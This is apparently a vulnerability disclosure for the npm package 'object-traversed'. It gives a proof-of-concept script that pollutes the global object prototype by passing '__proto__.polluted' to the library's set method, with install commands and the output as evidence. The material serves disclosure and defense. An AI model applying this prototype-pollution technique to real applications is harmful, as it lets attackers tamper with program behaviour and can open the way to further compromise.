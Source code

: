 # Description

Prototype Pollution in object-traversed

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var objectTraversed = require("object-traversed")
var obj = {}
console.log("Before : " + {}.polluted);
objectTraversed(obj).set("__proto__.polluted","Yes! Its Polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i object-traversed # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
